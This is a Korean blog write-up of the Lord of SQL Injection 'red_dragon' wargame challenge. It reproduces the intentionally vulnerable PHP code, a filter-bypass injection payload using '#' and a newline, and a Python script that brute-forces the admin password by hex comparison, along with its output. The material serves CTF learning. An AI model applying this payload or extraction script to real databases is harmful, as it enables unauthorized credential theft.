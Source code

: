 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - red_dragon 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


정신 차려보니 `green_dragon` 문제를 푼지 벌써 2주가 지나있다.  

그동안 휴가도 다녀오고 휴가를 다녀오느라 못한 일들을 하느라 정신이 없었다.  

`red_dragon`을 오랜만에 풀어보았는데 좀 어려웠다 ㅠㅠ  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

이번엔 `id`와 `no`를 입력 받는다.  

그런데 `id`는 `7글자`를 넘을 수 없고, `no`에는 순전히 `숫자`만 들어갈 수 있다.  

그래서 처음에는 `id가 admin인 행의 no를 찾아보자!`라고 생각했는데, `no`가 아무래도 작은 수는 아닌가보다.  

그리고 문제를 풀려면 정확한 pw의 값이 필요한데, 이 방법으로는 그걸 알아낼 수도 없다.  

한참을 고민했는데 모르겠어서 주변의 `웹잘알`님께 물어보았다.  

그랬더니 아래와 같은 방법을 알려주었다.  

```
?id='||pw>%23&no=%0a0x61
```

이렇게 입력하면 완성되는 쿼리는 다음과 같다.  

```
select id from prob_red_dragon where id=''||pw>#' and no=
0x61
```

`no=` 다음에 `%0a`를 입력했기 때문에 뒤의 `0x61`은 다음 줄에 들어간다.  

`#`은 `MySQL`에서 한 줄 주석 문자이며, `MySQL`에서는 여러 줄에 걸쳐 쿼리를 입력할 수 있다.  

그래서 위의 쿼리문에서 주석처리되는 부분과 개행을 빼고 깔끔하게 정리하면 아래와 같이 된다.  

```
select id from prob_red_dragon where id=''||pw>0x61
```

헤...  

이러면 한 글자 씩 pw를 비교할 수 있다!  

아래는 내 서버에서 테스트 해 본 결과이다.  

```
mysql> select * from user where id='admin' and pw>0x61;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x62;
Empty set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6172;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.01 sec)

mysql> select * from user where id='admin' and pw>0x6174;
Empty set (0.00 sec)
```

위와 같이 pw를 한 글자 씩 비교할 수 있는데, `=`이 아닌 `>`를 통해 비교하고 있기 때문에 결과값이 나오지 않는 순간의 직전 값이 pw의 정확한 값이 된다.  

따라서 문제에서 pw의 값을 `hex` 값으로 비교를 하다가 `Hello admin`이 안나온다면 그 값에서 `-1`을 한 값이 pw가 된다.  

그런데 마지막 글자를 찾을 때는 다르다.  

```
mysql> select * from user where id='admin' and pw>0x6173646177717764;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173646177717765;
Empty set (0.00 sec)
```

위의 예시에서도 알 수 있듯이 마지막 글자는 `Hello admin`이 나오지 않은 값이 정확한 pw의 값이다.  

이를 바탕으로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = "0x"

url = "http://los.rubiya.kr/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 20):
	found = False
	for i in range(48, 128):
		try:
			query = url + "'||pw>%23&no=%0a" + flag + hex(i)[2:]
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' not in r.text:
			flag += str(hex(i - 1))[2:]
			print "[+] Found " + str(j), ":", flag
			found = True
			break
	if not found:
		print "[+] Found password finished"
		break
	
flag = flag[2:].decode("hex")
flag = flag[:-1] + chr(ord(flag[-1]) + 1)
print "[+] Found password : ", flag
print "[+] End"
```

pw의 길이를 모르기 때문에 일단 20까지 반복문을 돌렸다.  

그리고 마지막 글자는 `Hello admin`이 나오지 않은 그 순간의 값이기 때문에 다시 `+1`을 해 출력 해 주었다.  

그 결과 다음과 같았다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0x41
[+] Found 2 : 0x4135
[+] Found 3 : 0x413533
[+] Found 4 : 0x41353344
[+] Found 5 : 0x4135334444
[+] Found 6 : 0x413533444434
[+] Found 7 : 0x41353344443436
[+] Found 8 : 0x4135334444343640
[+] Found password finished
[+] Found password :  A53DD46A
[+] End
```

이 전의 문제에서도 pw의 값은 소문자였기 때문에 이번에도 아래와 같이 소문자로 입력 해 주었다.  

```
?pw=a53dd46a
```

그 결과 문제를 풀 수 있었다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
----------------------------------------------------------------------------------

RED_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

`RED_DRAGON Clear!!`
